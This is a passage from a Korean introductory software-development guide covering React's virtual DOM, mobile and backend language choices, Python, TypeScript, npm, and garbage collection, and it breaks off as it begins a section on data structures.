리액트 이전의 웹 개발은 HTML 파일, CSS 파일, JS 파일이 분리된 페이지 단위 개발이었습니다. 반면 리액트는 화면의 독립된 작은 단위들을 **컴포넌트(Component)**라는 재사용 가능한 블록으로 쪼갭니다. 내비게이션 바, 프로필 카드, 버튼 등을 레고 블록처럼 만들어 두고, 이를 조립하여 거대한 애플리케이션을 구축합니다. 코드의 재사용성과 유지보수성이 극대화됩니다.

### 2. 가상 DOM (Virtual DOM)과 재조정(Reconciliation)
브라우저의 실제 DOM을 직접 수정하는 작업은 앞서 살펴본 Reflow와 Repaint를 빈번하게 유발하여 성능 저하의 주범이 됩니다. 리액트는 이 문제를 해결하기 위해 메모리 상에 가벼운 자바스크립트 객체 형태의 **가상 DOM(Virtual DOM)**을 유지합니다.

```
  [ 상태 변경 (State Change) ]
              │
              ▼
  [ 새로운 Virtual DOM 생성 ] ◄─── (Diffing 알고리즘으로 이전 가상 DOM과 비교)
              │
              ▼
  [ 변경된 최소 단위 추출 (Patch) ]
              │
              ▼ (일괄 배치 업데이트: Batching)
  [ 실제 브라우저 DOM에 단 한 번 반영 ] ──► Reflow / Repaint 최소화 달성
```

1. 데이터(State)가 변경되면 리액트는 메모리에 새로운 가상 DOM 트리를 그립니다.
2. 이전 가상 DOM과 새 가상 DOM을 비교하여 실제로 바뀐 부분만을 찾아냅니다(Diffing).
3. 바뀐 조각들만 모아 실제 브라우저 DOM에 단 한 번에 몰아서 적용(Batching)함으로써 브라우저 렌더링 부하를 드라마틱하게 줄입니다.

### 3. 선언형 UI (Declarative UI)
"어떻게(How) 요소를 찾고 스타일을 바꿀 것인가"를 명령하는 것이 아니라, "화면이 어떤 상태(What)를 보여주어야 하는가"를 선언합니다. 개발자는 복잡한 DOM 조작 신경망에서 해방되어, 오직 **애플리케이션의 데이터 상태(State)**를 설계하는 데만 집중할 수 있습니다.

```jsx
// 현대적인 리액트 함수형 컴포넌트와 Hook 예제
import React, { useState } from 'react';

function LikeButton() {
    const [likes, setLikes] = useState(0);
    const [isLiked, setIsLiked] = useState(false);

    const handleToggle = () => {
        setIsLiked(!isLiked);
        setLikes(isLiked ? likes - 1 : likes + 1);
    };

    return (
        <button 
            onClick={handleToggle} 
            style={{ backgroundColor: isLiked ? '#ff4d4f' : '#f0f0f0' }}
        >
            {isLiked ? '❤️ 좋아요 취소' : '🤍 좋아요'} ({likes})
        </button>
    );
}

export default LikeButton;
```

---

## 10 모바일 앱을 개발하는 언어 및 프레임워크는 무엇인가요?

스마트폰 애플리케이션을 제작하는 기술 스택은 크게 **네이티브(Native) 방식**과 **크로스 플랫폼(Cross-Platform) 방식**이라는 두 갈래의 길로 나뉩니다.

```
                     [ 모바일 애플리케이션 개발 방식 ]
                                     │
             ┌───────────────────────┴───────────────────────┐
             ▼                                               ▼
   [ 네이티브 (Native) ]                          [ 크로스 플랫폼 (Cross-Platform) ]
   OS 제조사 공식 언어/도구                         단일 코드로 iOS & Android 동시 빌드
   ┌───────────────────────┐                      ┌───────────────────────┐
   │ • iOS: Swift, SwiftUI │                      │ • Flutter (Dart)      │
   │ • Android: Kotlin,    │                      │ • React Native (JS/TS)│
   │   Jetpack Compose     │                      └───────────────────────┘
   └───────────────────────┘
```

### 1. 네이티브(Native) 진영: 플랫폼 고유의 힘
각 운영체제 제조사(Apple, Google)가 제공하는 공식 언어와 SDK를 사용해 앱을 만듭니다.
* **iOS (Swift & SwiftUI)**: 애플이 Objective-C의 한계를 극복하기 위해 만든 모던 언어 Swift와 선언형 UI 프레임워크인 SwiftUI가 표준입니다. 애플 생태계 특유의 부드러운 하드웨어 가속 애니메이션과 최신 OS 기능(Dynamic Island, Widget 등)을 출시 당일 즉각 지원합니다.
* **Android (Kotlin & Jetpack Compose)**: 구글이 안드로이드 제1 공식 언어로 지정한 Kotlin과 현대적 선언형 UI 툴킷인 Jetpack Compose가 시장을 이끌고 있습니다. 자바 대비 압도적으로 간결한 문법과 완벽한 널 안전성(Null-safety)을 자랑합니다.

### 2. 크로스 플랫폼(Cross-Platform) 진영: 단일 코드베이스의 효율
iOS 개발팀과 안드로이드 개발팀을 따로 두면 인건비와 개발 기간이 두 배로 듭니다. 크로스 플랫폼은 **"Write Once, Run on Both iOS & Android"**를 실현합니다.
* **Flutter (구글 / Dart 언어)**: 
  * 플랫폼의 네이티브 UI 컴포넌트를 사용하지 않고, 자체 그래픽 렌더링 엔진(Impeller/Skia)을 앱 내에 탑재하여 픽셀을 직접 그립니다.
  * iOS와 안드로이드 기기 간 UI 일관성이 완벽에 가깝고 고성능을 발휘합니다.
* **React Native (메타 / JavaScript & TypeScript 언어)**:
  * 웹 프론트엔드의 리액트 문법을 그대로 사용해 모바일 앱을 만듭니다.
  * 자바스크립트 코드가 네이티브 브릿지(Bridge/Fabric)를 통해 실제 iOS/안드로이드의 네이티브 뷰 컴포넌트를 호출합니다. 방대한 NPM 웹 생태계를 흡수할 수 있습니다.

---

### 모바일 프레임워크 전격 비교 분석

| 구분 | Swift / SwiftUI | Kotlin / Compose | Flutter | React Native |
| :--- | :--- | :--- | :--- | :--- |
| **개발 언어** | Swift | Kotlin | Dart | JavaScript / TypeScript |
| **지원 플랫폼** | Apple 생태계 전용 | Android 전용 (KMP 확장중) | iOS, Android, Web, Desktop | iOS, Android |
| **렌더링 방식** | 네이티브 UI 엔진 | 네이티브 UI 엔진 | 자체 엔진 (Impeller 직접 렌더) | 네이티브 뷰 브릿지 호출 |
| **런타임 성능** | 최상 | 최상 | 상 | 중상 |
| **코드 공유율** | 0% (iOS 전용) | 0% (Android 전용) | 90% 이상 | 85% 이상 |
| **최신 OS 지원** | 즉각 지원 (Day 1) | 즉각 지원 (Day 1) | 써드파티 플러그인 업데이트 대기 | 써드파티 플러그인 업데이트 대기 |
| **추천 상황** | 초고성능 그래픽/카메라 앱, 금융 | 안드로이드 하드웨어 제어 중심 | 빠른 출시, 일관된 UI 중심 서비스 | 웹 프론트엔드 인력 활용, 스타트업 |

---

## 11 서버 프로그램을 만드는 언어는 무엇인가요?

사용자의 눈에 보이지 않는 백엔드 서버(Server)의 세계는 거대한 트래픽을 감당하고, 안전하게 결제를 처리하며, 데이터의 일관성을 사수하는 **신뢰성(Reliability)과 처리량(Throughput)**의 전쟁터입니다.

```
       [ 백엔드 서버 언어들의 동시성 및 철학 비교 ]

   Java / Spring Boot        Go (Golang)            Node.js / NestJS
  ┌───────────────────┐    ┌───────────────────┐    ┌───────────────────┐
  │ 전통적 스레드 풀   │    │ 경량 고루틴       │    │ 싱글 스레드       │
  │ (Thread-per-req)  │    │ (Goroutine)       │    │ 비동기 이벤트 루프│
  │ 대규모 엔터프라이즈│    │ 초경량 동시성 최강 │    │ 빠른 I/O 바운드   │
  └───────────────────┘    └───────────────────┘    └───────────────────┘
```

### 1. 주요 백엔드 언어 및 생태계 해설

#### ① Java (Spring Boot) - 엔터프라이즈의 거대한 성벽
* 전 세계 및 국내 백엔드 시장의 압도적 점유율을 자랑합니다.
* 멀티스레드 기반의 견고한 아키텍처와 성숙한 트랜잭션 관리, 수천만 건의 데이터를 안정적으로 처리하는 배치(Batch) 인프라를 완벽히 지원합니다.

#### ② Python (Django & FastAPI) - 민첩성과 인공지능의 결합
* **Django**: ORM, 인증, 어드민 기능이 모두 포함되어 있어 최소한의 코드로 완벽한 웹 서비스를 단시간에 구축할 수 있습니다.
* **FastAPI**: 파이썬 3.6+의 비동기 문법(`async/await`)과 타입 힌트를 기반으로 설계되어, 가볍고 극도로 빠른 고성능 REST API와 AI 모델 서빙에 최적화되어 있습니다.

#### ③ Node.js / TypeScript (NestJS) - 풀스택 일원화와 I/O 최적화
* 비동기 논블로킹(Non-blocking) I/O 모델 덕분에 채팅, 실시간 알림, 스트리밍 등 I/O 집약적 서비스에서 적은 메모리로 대규모 동시 접속자를 거뜬히 처리합니다.
* NestJS 프레임워크의 등장으로 엔터프라이즈급의 엄격한 모듈러 아키텍처를 구축할 수 있게 되었습니다.

#### ④ Go (Golang) - 클라우드 네이티브와 분산 시스템의 언어
* 구글이 C++의 느린 빌드 속도와 복잡성에 지쳐 개발한 언어입니다.
* OS 스레드보다 수백 배 가벼운 **고루틴(Goroutine)**과 **채널(Channel)**을 언어 차원에서 내장하여 수십만 개의 동시 작업을 메모리 부담 없이 처리합니다. Docker, Kubernetes 등 현대 클라우드 인프라 핵심 소프트웨어들이 모두 Go로 제작되었습니다.

---

### 백엔드 언어 도메인 적합성 매트릭스

| 프로젝트 도메인 요구사항 | 1순위 추천 | 2순위 추천 | 선택 이유 및 핵심 가치 |
| :--- | :---: | :---: | :--- |
| **금융 거래, 대형 전자상거래, 공공 코어** | Java / Kotlin | C# (.NET) | 복잡한 트랜잭션 보장, 풍부한 엔터프라이즈 레퍼런스 |
| **초고동시성 네트워크, 마이크로서비스(MSA)** | Go | Node.js | 초경량 고루틴, 낮은 메모리 점유율, 빠른 단일 바이너리 배포 |
| **AI / 머신러닝 연계 서비스, 데이터 파이프라인** | Python | Go | PyTorch/TensorFlow 생태계와의 무결점 즉시 결합 |
| **실시간 채팅, 대화형 협업 툴, 풀스택 MVP** | Node.js (TS) | Python | 이벤트 드리븐 논블로킹 I/O, 프론트-백 코드 공유 |

---

## 12 파이썬 나온 지가 30년이나 되었는데, 많이 사용되는 이유는 무엇인가요?

**파이썬(Python)**은 1991년 네덜란드의 프로그래머 귀도 반 로섬(Guido van Rossum)이 크리스마스 휴가 기간에 취미로 개발한 언어입니다. 자바(1995년)보다도 나이가 많은 이 30년 넘은 노장 언어가 2020년대 들어 전 세계 TIOBE 언어 인기 순위 1위를 석권하며 역사상 유례없는 전성기를 누리고 있는 이유는 무엇일까요?

```
                    [ 파이썬 30년 독주의 4대 엔진 ]
                     
        1. 가독성 중심 철학                     2. 거대한 접착제 언어
      "인생은 짧으니 파이썬이 필요하다"         "C/C++ 초고성능 코어 감싸기"
    ┌───────────────────────────────┐       ┌───────────────────────────────┐
    │ if user in registered_users:  │       │  [ Python API 레이어 ]        │
    │     print("환영합니다")        │       │  [ C/CUDA 연산 코어 ] (속도)   │
    └───────────────────────────────┘       └───────────────────────────────┘
                   ▲                                       ▲
                   │                                       │
                   └───────────────────┬───────────────────┘
                                       │
                   ┌───────────────────┴───────────────────┐
                   ▼                                       ▼
        3. AI/데이터 사실상 표준               4. 배터리 포함 철학
      "대체 불가능한 AI 생태계 독점"          "설치 즉시 사용 가능한 표준 모듈"
      NumPy, Pandas, PyTorch, LangChain       웹 스크래핑, 자동화, 통계 패키지
```

### 1. 사람이 읽을 수 있는 언어: 압도적 가독성과 생산성
파이썬의 철학은 **"The Zen of Python"**에 잘 드러나 있습니다.
> *"Beautiful is better than ugly. Simple is better than complex. Readability counts."*

파이썬은 괄호(`{}`) 대신 **들여쓰기(Indentation)**를 문법적 규칙으로 강제합니다. 그 결과 누가 작성하더라도 코드의 형식이 통일되고 의사코드(Pseudocode)를 읽는 것처럼 직관적입니다. 프로그래밍 전공자가 아닌 수학자, 물리학자, 금융 분석가, 의학 연구원들이 가장 쉽게 배워 현업에 즉시 적용할 수 있는 유일무이한 언어가 되었습니다.

### 2. 접착제 언어(Glue Language): C/C++ 바인딩
"파이썬은 인터프리터 언어라 실행 속도가 느리다"는 비판은 절반만 맞습니다.
파이썬은 스스로 모든 무거운 연산을 하지 않습니다. 대신 **C, C++, 심지어 GPU 가속을 위한 NVIDIA CUDA로 작성된 고성능 저수준 바이너리를 호출하여 조립하는 접착제(Glue)** 역할을 수행합니다.
* 사용자는 직관적인 파이썬 코드를 작성하지만,
* 실제 거대한 행렬 곱셈이나 신경망 텐서 연산은 밑단의 초고속 C/C++ 라이브러리가 하드웨어 자원을 쥐어짜며 수행합니다.

### 3. 데이터 과학과 인공지능(AI) 생태계의 독점적 표준
오늘날 챗GPT, 거대언어모델(LLM), 딥러닝 기술의 뒤에는 모두 파이썬이 있습니다.
* 수치 연산: `NumPy`, `SciPy`
* 데이터 분석/전처리: `Pandas`
* 머신러닝: `Scikit-learn`
* 딥러닝 프레임워크: `PyTorch`, `TensorFlow`
* 생성형 AI 및 LLM 파이프라인: `Hugging Face`, `LangChain`

전 세계 모든 최첨단 AI 연구소와 논문들이 파이썬을 기반으로 연구 결과를 발표하므로, AI를 다루려는 엔지니어에게 파이썬은 선택이 아닌 필수가 되었습니다.

### 4. "Batteries Included" (배터리 포함 철학)
파이썬을 설치하는 순간 파일 I/O, 수학 연산, 정규표현식, HTTP 클라이언트, 스레딩, 데이터 압축 모듈이 기본 라이브러리에 모두 포함되어 있습니다. 별도의 복잡한 외부 세팅 없이 단 몇 줄로 웹 크롤러나 파일 정리 자동화 스크립트를 완성할 수 있는 강력한 무기입니다.

---

## (+) 타입스크립트(TypeScript)는 무엇인가요?

2012년 마이크로소프트의 앤더스 헤일스버그(Anders Hejlsberg)가 설계한 **타입스크립트(TypeScript)**는 오늘날 모던 자바스크립트 생태계의 패러다임을 바꾼 언어입니다.

```
       JavaScript (동적 타이핑)                   TypeScript (정적 타이핑)
    ┌───────────────────────────────┐        ┌───────────────────────────────┐
    │ function add(a, b) {          │        │ function add(a: number,       │
    │   return a + b;               │        │              b: number): number│
    │ }                             │        │ { return a + b; }             │
    │                               │        │                               │
    │ add(10, "20"); // "1020" 버그 │        │ add(10, "20"); // 컴파일 에러! │
    │ 런타임에 실행해봐야만 알 수 있음│        │ 저장하는 순간 IDE가 빨간 줄 경고│
    └───────────────────────────────┘        └───────────────────────────────┘
```

### 1. 자바스크립트의 역설과 정적 타입의 필요성
자바스크립트는 원래 웹 브라우저에서 몇 줄의 스크립트로 버튼을 제어하기 위해 만들어진 가벼운 동적 타이핑 언어였습니다. 그러나 웹의 위상이 높아지며 수십만 줄에 달하는 대규모 단일 페이지 애플리케이션(SPA)과 엔터프라이즈 서버(Node.js)를 자바스크립트로 구축하기 시작했습니다.

여기서 치명적인 문제가 발생했습니다.
* **런타임 에러의 공포**: `TypeError: Cannot read properties of undefined` 같은 에러가 실제 사용자가 앱을 조작하는 도중(런타임)에 터져 서버나 브라우저를 멈추게 합니다.
* **리팩토링의 한계**: 코드 한 줄, 변수 이름 하나를 바꿨을 때 프로젝트 전체의 어디가 망가질지 예측할 수 없습니다.

### 2. JavaScript의 완전한 슈퍼셋(Superset)
타입스크립트는 새로운 언어가 아니라 **"자바스크립트 문법 위에 강력한 정적 타입 시스템을 얹은 슈퍼셋"**입니다. 즉, 유효한 모든 자바스크립트 코드는 그대로 유효한 타입스크립트 코드입니다. 브라우저는 타입스크립트를 직접 실행하지 못하므로, 타입스크립트 컴파일러(`tsc`)가 타입을 검증한 후 순수 자바스크립트로 변환(트랜스파일)하여 배포합니다.

### 3. 타입스크립트가 주는 3대 핵심 가치
1. **컴파일 타임 에러 검출**: 프로그램이 배포되어 실행되기도 전에, 코드를 타이핑하고 저장하는 즉시 오타나 타입 불일치 버그를 100% 잡아냅니다.
2. **개발자 경험(DX)의 극대화**: IDE(VS Code 등)가 함수의 매개변수 타입과 객체의 내부 속성을 정확히 알고 있으므로 완벽한 자동완성(IntelliSense)과 인라인 문서를 제공합니다.
3. **대규모 협업과 리팩토링의 안전망**: 동료가 작성한 함수의 시그니처와 반환값을 문서를 뒤지지 않고도 타입 정의만으로 파악할 수 있으며, 변수명을 바꿀 때 프로젝트 전역의 참조를 안전하게 동시 수정할 수 있습니다.

```typescript
// 정적 타입과 인터페이스를 활용한 안전한 주문 시스템
interface Product {
    id: number;
    name: string;
    price: number;
}

interface Order {
    orderId: string;
    products: Product[];
    totalAmount: number;
}

function calculateTotal(items: Product[]): number {
    return items.reduce((sum, item) => sum + item.price, 0);
}

const cart: Product[] = [
    { id: 1, name: "기계식 키보드", price: 150000 },
    { id: 2, name: "무선 마우스", price: 80000 }
];

const total = calculateTotal(cart);
console.log(`총 결제 금액: ${total}원`);
```

---

## (+) 패키지 매니저(npm)는 무엇인가요?

현대 소프트웨어 개발은 "무에서 유를 창조하는 일"이 아니라, **"수많은 개발자들이 검증해 둔 오픈소스 라이브러리라는 거인의 어깨 위에 올라타는 일"**입니다. 이 수억 개의 오픈소스 부품들을 프로젝트로 안전하게 가져오고 관리하는 도구가 바로 **패키지 매니저(Package Manager)**입니다.

```
                  [ npm 기반의 모던 모듈 생태계 ]

     개발자 프로젝트                         공식 npm 원격 레지스트리
  ┌───────────────────────┐             ┌───────────────────────────────────┐
  │ package.json          │             │  react / next / axios / lodash    │
  │ (필요한 라이브러리 명세) │   npm i     │  (전 세계 200만 개 이상의 모듈)   │
  │                       │ ──────────► │                                   │
  │ package-lock.json     │             └───────────────────────────────────┘
  │ (버전/해시값 절대 고정) │                               │
  │                       │ ◄───────────────────────────────┘
  │ node_modules/         │    의존성 트리 다운로드 및 로컬 빌드
  │ (실제 내려받은 코드)  │
  └───────────────────────┘
```

### 1. `package.json`과 유의적 버전 (Semantic Versioning)
`package.json`은 프로젝트의 신분증이자 의존성 명세서입니다. 프로젝트가 어떤 외부 모듈에 의존하고 있는지 기록합니다. 이때 버전 번호는 **SemVer(Semantic Versioning)** 원칙을 따릅니다.

**Version: MAJOR.MINOR.PATCH** (예: 18.2.0)

* **MAJOR (18)**: 기존 기능과 호환되지 않는 중대한 파괴적 변경(Breaking Changes)
* **MINOR (2)**: 기존 기능과 하위 호환성을 유지하면서 새로운 기능 추가
* **PATCH (0)**: 기존 기능과 호환되는 단순 버그 수정
* **버전 범위 기호**:
  * `^18.2.0` (캐럿): 하위 호환성이 보장되는 Minor 버전까지 자동 업데이트 허용 (18.x.x)
  * `~18.2.0` (틸드): 패치 수준의 버그 수정만 업데이트 허용 (18.2.x)

### 2. `package-lock.json`이 반드시 필요한 이유
캐럿(`^`) 기호로 인해 개발자 A가 설치했을 때는 `18.2.0`이 깔렸는데, 3개월 뒤 개발자 B가 프로젝트를 클론받아 `npm install`을 치면 그사이 업데이트된 `18.2.5`가 깔릴 수 있습니다. 이 미세한 버전 차이로 인해 **"내 컴퓨터에서는 잘 되는데 서버에서는 왜 에러가 나지?"**라는 재앙이 벌어집니다.

`package-lock.json`은 설치 시점의 모든 하위 의존성 모듈의 정확한 버전과 위변조 검증용 해시(Integrity Hash)를 바이트 단위로 영구 박제합니다. 따라서 모든 팀원과 CI/CD 배포 서버가 **언제나 100% 동일한 환경을 재현**할 수 있도록 보장합니다.

---

### 차세대 패키지 매니저 비교: npm vs yarn vs pnpm

```
  [ npm / Yarn Classic ]            [ pnpm (하드 링크 방식) ]
  프로젝트 A: node_modules (1GB)      글로벌 중앙 저장소 (~/.pnpm-store) 에 원본 1개 보존
  프로젝트 B: node_modules (1GB)   ──► 프로젝트 A, B는 하드 링크(Hard link)로 참조만 연결!
  => 동일 패키지가 중복 복사됨        => 디스크 용량 극적 절약 + 초고속 설치 속도 달성
```

| 패키지 매니저 | 핵심 메커니즘 | 설치 속도 | 디스크 공간 효율 | 주요 특징 및 적합한 환경 |
| :--- | :--- | :---: | :---: | :--- |
| **npm** | 플랫(Flat) `node_modules` | 보통 | 보통 | Node.js 설치 시 기본 내장, 가장 범용적인 표준 |
| **Yarn Classic (v1)**| 병렬 다운로드, 캐시 기반 | 상 | 보통 | 과거 npm의 느린 속도를 개선하며 널리 보급됨 |
| **Yarn Berry (v2+)** | PnP(Plug'n'Play), Zip 아카이브 | 최상 | 최상 | `node_modules` 자체를 없애고 Zip 파일로 의존성 직접 로딩 |
| **pnpm** | 글로벌 저장소 + 하드 링크(Hard link) | 최상 | 최상 | 대규모 모노레포(Monorepo) 최강자, 디스크 공간 낭비 완벽 해결 |

---

## (+) 가비지 컬렉션(Garbage Collection)이란 무엇인가요?

모든 소프트웨어는 동작하는 동안 컴퓨터의 RAM(메모리)을 사용합니다. 데이터를 저장하기 위해 메모리를 빌려 쓰고, 사용이 끝나면 다른 프로그램이 쓸 수 있도록 메모리를 반납해야 합니다. 이 메모리 관리를 인간이 직접 하느냐, 시스템이 알아서 해주느냐에 따라 프로그래밍 언어의 세계관이 나뉩니다.

```
  [ 수동 메모리 관리 (C/C++) ]               [ 자동 메모리 관리 (Java/JS/Python) ]
  개발자가 직접 할당과 해제 전담             가비지 컬렉터(GC)가 백그라운드에서 전담

  void process() {                          void process() {
      int *arr = malloc(1024);                  List<Integer> list = new ArrayList<>();
      // 작업 수행...                            // 작업 수행...
      free(arr); // 까먹으면 메모리 누수!      } // 스코프를 벗어나면 GC가 알아서 감지 후 회수!
  }
```

### 1. 수동 메모리 관리의 치명적인 함정
C/C++ 같은 언어에서는 `malloc()` / `free()`나 `new` / `delete`를 통해 개발자가 직접 메모리를 제어합니다. 하지만 인간은 언제나 실수를 저지릅니다.
* **메모리 누수(Memory Leak)**: 사용이 끝난 메모리를 해제하지 않아 RAM이 서서히 고갈되고 결국 서버가 다운되는 현상.
* **댕글링 포인터(Dangling Pointer)**: 이미 해제해 버린 메모리 주소를 여전히 가리키고 있는 위험한 포인터.
* **이중 해제(Double Free)**: 이미 반납한 메모리를 실수로 또 반납하여 시스템 크래시를 유발하는 현상.

### 2. 가비지 컬렉터의 동작 원리: Reachability(도달 가능성)
가비지 컬렉터(GC)는 프로그램이 동적으로 할당한 메모리 영역(Heap)을 실시간으로 감시하며, **"더 이상 어떤 경로로도 도달할 수 없는 객체(Unreachable Object)"**를 쓰레기(Garbage)로 간주하여 수거합니다.

가장 널리 쓰이는 알고리즘은 **Mark-and-Sweep**입니다.

```
  [ 1. Root Set 식별 ] ──► [ 2. Mark (표시) ] ──► [ 3. Sweep (쓸어담기) ] ──► [ 4. Compact (압축) ]
   스택 변수, 전역 변수     참조 연결된 활성 객체     도달 불가능한 객체       남은 객체들을 모아
   레지스터로부터 출발       들을 추적하여 마킹        메모리에서 해제           메모리 단편화 제거
```

1. **Root Set 식별**: 현재 실행 중인 스레드의 스택 프레임에 있는 지역 변수, 전역 변수 등 메모리의 시작점을 잡습니다.
2. **Mark 단계**: Root로부터 객체 참조 그래프를 타고 순회하며 닿을 수 있는 모든 살아있는 객체에 마킹(Mark)을 합니다.
3. **Sweep 단계**: 마킹되지 않은, 즉 도달할 수 없는 고립된 객체들을 힙 메모리에서 쓸어 담아(Sweep) 메모리를 확보합니다.
4. **Compact 단계**: 흩어져 있는 메모리 조각들을 한쪽으로 모아 빈 공간의 구멍(메모리 단편화)을 메웁니다.

---

### 3. 세대별 가비지 컬렉션 (Generational GC)
현대 고성능 언어들의 가비지 컬렉터(JVM의 G1GC/ZGC, V8 엔진)는 대단히 지능적입니다. 매번 힙 메모리 전체를 샅샅이 뒤지는 것은 엄청난 CPU 연산 낭비를 부르기 때문입니다.

엔지니어들은 수많은 소프트웨어의 메모리 패턴을 분석하여 한 가지 위대한 통계적 사실을 발견했습니다. 이를 **약한 세대 가설(Weak Generational Hypothesis)**이라고 합니다.
> 1. *대부분의 객체는 생성된 직후 매우 짧은 시간 안에 쓸모가 없어진다.* (함수 내부의 임시 객체 등)
> 2. *오래 살아남은 객체에서 젊은 객체로의 참조는 극히 드물다.*

```
                 [ 힙 메모리의 세대 구분 구조 ]
  ┌───────────────────────────────────────────────┬───────────────────────────────┐
  │              Young Generation                 │        Old Generation         │
  │  ┌──────────────┬──────────────┬───────────┐  │  ┌─────────────────────────┐  │
  │  │ Eden 영역    │ Survivor 0   │Survivor 1 │  │  │ 여러 번의 GC를 거치고   │  │
  │  │ (새로 생성)  │ (살아남은 자)│           │  │  │ 오래 생존한 장수 객체  │  │
  │  └──────────────┴──────────────┴───────────┘  │  └─────────────────────────┘  │
  └───────────────────────────────────────────────┴───────────────────────────────┘
        ▲                                                ▲
        │ Minor GC (빈번하고 극도로 빠름)                │ Major GC (드물게 발생, 긴 멈춤 주의)
```

* **Young Generation**: 새로 생성된 객체가 위치합니다. 크기가 작으므로 여기서 발생하는 **Minor GC**는 순식간에 끝납니다.
* **Old Generation**: Minor GC에서 끝까지 살아남은 객체들은 '성숙'한 것으로 인정받아 Old 영역으로 승격(Promotion)됩니다. 수명이 긴 객체들이 모여 있으므로 GC가 드물게 일어납니다.

### 4. 가비지 컬렉터가 있어도 메모리 누수가 일어나는 이유
많은 초보 개발자들이 "가비지 컬렉터가 있으니 메모리 누수 걱정은 끝났다"고 착각합니다. 하지만 가비지 컬렉터는 **"참조가 끊어진 객체"만 수거할 수 있습니다.**
* 개발자의 실수로 더 이상 쓰지 않는 객체를 전역 컬렉션(`List`, `Map`)에 넣어둔 채 지우지 않거나,
* 웹 브라우저에서 화면이 닫혔는데도 DOM 이벤트 리스너를 해제하지 않거나,
* 클로저(Closure) 내부에서 거대한 외부 객체를 무의식적으로 물고 있는 경우,

가비지 컬렉터는 이 객체들이 "여전히 누군가에게 필요한 객체"라고 판단하여 영원히 수거하지 못합니다. 이것이 바로 현대 언어에서도 메모리 누수가 발생하는 메커니즘이며, 프로그래머가 자원의 생명주기를 언제나 의식해야 하는 이유입니다.


---

# PART 04 개발할 때 알아야 하는 필수 지식

> "컴퓨터 과학은 컴퓨터에 관한 학문이 아닙니다. 컴퓨터를 도구로 삼아 문제를 해결하는 원리와 체계에 관한 학문입니다."  
> — 에츠허르 데이크스트라 (Edsger W. Dijkstra)

소프트웨어 개발은 단순한 문법 암기나 라이브러리 호출의 나열이 아닙니다. 화면 너머에서 일어나는 컴퓨터 내부의 메모리 흐름, 데이터의 정돈 체계, 네트워크 선을 타고 오가는 데이터 패킷의 규칙, 그리고 끊임없이 비동기로 일어나는 작업의 흐름을 이해할 때 비로소 진정한 의미의 '엔지니어링'이 시작됩니다.

소프트웨어 세계에는 수많은 용어와 개념이 존재합니다. 자료구조, 알고리즘, API, REST, 동기와 비동기, Ajax, JSON, 이벤트 기반 통신 등... 이들은 파편화된 기술이 아니라 **"어떻게 하면 더 빠르고, 더 안정적이며, 더 명확하게 컴퓨터와 협업하고 다른 컴퓨터와 대화할 것인가?"**라는 단 하나의 목표를 향해 유기적으로 연결되어 있습니다.

이번 파트에서는 실무 개발 현장에서 매일같이 사용하지만 어렴풋이 알고 지나치기 쉬운 소프트웨어 핵심 컴퓨터 과학(CS) 기초와 웹 통신 메커니즘을 가장 명쾌한 비유와 깊이 있는 해설로 총정리합니다.

---

## 01 자료 구조란 무엇인가요?

개발을 시작하면 가장 먼저 마주치는 거대한 장벽이자 기본기가 바로 **자료 구조(Data Structure)**입니다. 

자료 구조란 한마디로 **"컴퓨터 메모리 안에서 데이터를 효율적으로 정리하고, 저장하고, 관리하는 체계적인 방법"**을 말합니다.

```
       [ 무질서한 데이터 ]                           [ 체계적인 자료구조 ]
     ┌───────────────────────┐                     ┌───┬───┬───┬───┬───┐
     │ 42   "사과"   true    │   정리 & 구조화     │ 0 │ 1 │ 2 │ 3 │ 4 │
     │    { user: "홍길동" }  │ ─────────────────► ├───┼───┼───┼───┼───┤
     │  999       [1, 2]     │                     │사과│배 │포도│감 │귤 │
     └───────────────────────┘                     └───┴───┴───┴───┴───┘
      "찾으려면 전부 뒤져야 함"                     "인덱스로 즉시 탐색 가능"
```

### 1. 왜 자료 구조가 필요할까요? (도서관 비유)

만약 10만 권의 책이 보관된 대형 도서관이 있다고 상상해 보십시오. 책들이 바닥에 아무렇게나 쏟아져 쌓여 있다면, 여러분이 원하는 『클린 코드』 한 권을 찾기 위해 10만 권의 책을 처음부터 끝까지 일일이 들어 올려 확인해야 합니다. 운이 좋으면 1분 만에 찾겠지만, 운이 나쁘면 며칠 밤낮이 걸릴 수도 있습니다.

하지만 도서관의 규칙(자료 구조)에 따라 책을 분류하면 어떻게 될까요?
* `역사 / 과학 / 예술 / 컴퓨터` 등으로 분류 구역을 나누고(비선형 트리 구조),
* 컴퓨터 구역 안에서 `도서 청구 기호 순서`대로 책꽂이에 책을 나열해 두었다면(정렬된 배열 구조),
* 우리는 단 1~2분 만에 원하는 책의 위치로 직행할 수 있습니다.

컴퓨터의 RAM(메모리)도 도서관과 똑같습니다. 컴퓨터 메모리는 수십억 개의 1바이트짜리 보관함이 일렬로 늘어선 공간입니다. 이 공간에 데이터를 아무 원칙 없이 흩뿌려 두면 CPU는 원하는 데이터를 찾기 위해 극심한 자원과 시간을 낭비하게 됩니다. **적재적소의 자료 구조를 선택하는 것은 컴퓨터 시스템의 연산 속도와 메모리 효율을 극대화하는 첫걸음**입니다.

---

### 2. 선형 자료구조 vs 비선형 자료구조

자료 구조는 데이터들 사이의 연결 형태(선후 관계)에 따라 크게 **선형 자료구조(Linear)**와 **비선형 자료구조(Non-linear)**로 나뉩니다.

```
                              [ 자료 구조의 분류 ]
                                       │
            ┌──────────────────────────┴──────────────────────────┐
            ▼                                                     ▼
    [ 선형 자료구조 ]                                     [ 비선형 자료구조 ]
 (데이터가 1:1로 연결)                                (데이터가 1:N 또는 N:M으로 연결)
    │                                                     │
    ├─ 배열 (Array)                                       ├─ 트리 (Tree)
    ├─ 연결 리스트 (Linked List)                           ├─ 이진 탐색 트리 (BST)
    ├─ 스택 (Stack)                                       ├─ 힙 (Heap)
    └─ 큐 (Queue)                                         └─ 그래프 (Graph)
```

#### (1) 선형 자료구조 (Linear Data Structures)
데이터 요소들이 하나의 선처럼 차례대로 앞뒤 1:1 관계를 맺고 있는 구조입니다.

##### ① 배열 (Array)
* **특징**: 연속된 메모리 공간에 동일한 크기의 데이터가 순서대로 나열된 구조입니다.
* **장점**: 각 원소가 메모리에 연속으로 붙어 있으므로, 시작 주소와 인덱스 번호만 알면 수학적 계산(`시작주소 + 인덱스 × 원소크기`)을 통해 단 한 번에 해당 위치로 점프할 수 있습니다. 이를 **임의 접근(Random Access)**이라 하며, 시간 복잡도는 **`O(1)`**입니다.
